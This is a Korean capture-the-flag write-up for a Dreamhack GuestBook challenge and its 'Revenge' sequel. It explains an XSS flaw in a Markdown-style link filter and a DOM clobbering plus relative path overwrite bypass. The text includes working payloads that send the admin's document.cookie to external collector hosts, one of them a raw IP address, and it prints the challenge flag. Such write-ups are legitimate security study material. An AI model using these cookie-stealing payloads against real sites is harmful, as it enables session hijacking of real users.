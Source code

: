 # Keyword
- XSS
- Dom Clubbering

# Write-Up
- `/GuestBook.php`에서 아래와 같이 형식에 맞게 입력하면 a태그처럼 사용할 수 있게 만들어주는 기능이 있음 
```
<?php
function addLink($content){
  $content = htmlentities($content);
  $content = preg_replace('/\[(.*?)\]\((.*?)\)/', "<a href='$2'>$1</a>", $content);
  return $content;
}
?>
```

- `/Report.php`에서 도메인이 `http://127.0.0.1`인지를 체크를 하고 특정 페이지를 report할 수 있음
- 이를 이용해 `/GuestBook.php`에서 악의적인 게시물을 만들고 그 게시물을 관리자가 읽게 만들어 쿠키를 탈취하는 시나리오를 생각할 수 있음

- 관리자는 헤당 페이지에 접속하고 별다른 동작을 하지 않기 때문에 `autofocus` property를 넣어줘야 페이지 접근시 바로 XSS가 터지게 됨
```
GuestBook.php?content=[](#' name='' autofocus onfocus='location.href=`https://bvzyqfu.request.dreamhack.games/cookie=`+document.cookie'></a>)
```

- 정확한 이유는 모르겠지만 전체 페이로드를 인코딩해야 동작함
```
GuestBook.php?content=%5B%5D%28%23%27%20name%3D%27%27%20autofocus%20onfocus%3D%27location%2Ehref%3D%60https%3A%2F%2Fbvzyqfu%2Erequest%2Edreamhack%2Egames%2Fcookie%3D%60%2Bdocument%2Ecookie%27%3E%3C%2Fa%3E%29%0D%0A
```

# Revenge
- Revenge에서는 XSS를 방지하기 위한 코드가 추가되어서 다른 접근방법을 찾아야 함

- `/GuestBook.php`의 코드를 직접 확인해보면 `<script>`에서 특이한 코드를 찾을 수 있음
```html
<html>
<head>
<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css">
<title>Guest Book</title>
</head>
<body>
    <!-- Fixed navbar -->
    <nav class="navbar navbar-default navbar-fixed-top">
      <div class="container">
        <div class="navbar-header">
          <a class="navbar-brand" href="/">Guest Book</a>
        </div>
        <div id="navbar">
          <ul class="nav navbar-nav">
            <li><a href="/">Home</a></li>
            <li><a href="GuestBook.php">Guest Book</a></li>
            <li><a href="Report.php">Report</a></li>
          </ul>
        </div>
      </div>
    </nav><br/><br/><br/>
    <div class="container">
            <br/>
      <form>
      <div class="form-group">
        <label for="content">Content</label>
        <textarea class="form-control" id="content" name="content"></textarea>
      </div>

      <button type="submit" class="btn btn-default">제출</button>
    </form>
    </div>
    <script src="config.js"></script>
    <script>
      if(window.CONFIG && window.CONFIG.debug){
        location.href = window.CONFIG.main;
      }
    </script>
</body>
</html>
```

- 여기서 아래의 코드가 `window.CONFIG` 객체를 수정할 수 있게 된다면 Dom Clubbering를 이용해 원하는 페이지로 이동할 수 있게됨
```html
<script src="config.js"></script>
<script>
  if(window.CONFIG && window.CONFIG.debug){
	location.href = window.CONFIG.main;
  }
</script>
```

- 그러나 아래의 `config.js`를 불러오게 되면서, 객체를 덮어쓰고 변경이 불가능하게 바뀜
```js
window.CONFIG = {
  version: "v0.2",
  main: "/",
  debug: false,
  debugMSG: ""
}

// prevent overwrite
Object.freeze(window.CONFIG);
```

- RPO, HTML Collections과 연계하여 아래의 poc코드를 작성할 수 있음
- `GuestBook.php/` 여기에 있는 `/`가 절대 경로로 인식하게 만듬 
```
GuestBook.php/?content=[a](javascript:document.location="https://xpddjot.request.dreamhack.games/?"%2bdocument.cookie' id='CONFIG' name='main')[a]('id='CONFIG' name='debug')
```

- flag
```
DH{f35a6e5d4109190bdfa3fa59134cff19}
```


---
# 다른 Write-Up
- revenge에서 공백을 '/'로 우회해서 똑같은 페이로드를 사용할 수 있음

- RPO기법을 이용해 애초에 `config.js`가 실행되지 않게 만들 수도 있음
```
http://host1.dreamhack.games:8478/GuestBook.php/
```

```
http://127.0.0.1/GuestBook.php/?content=[test](http://aa.com' id=CONFIG name=debug ') [test](javascript:location.href=`http://3.34.34.150/universe/test.php?${document.cookie}` ' id=CONFIG name=main ')
```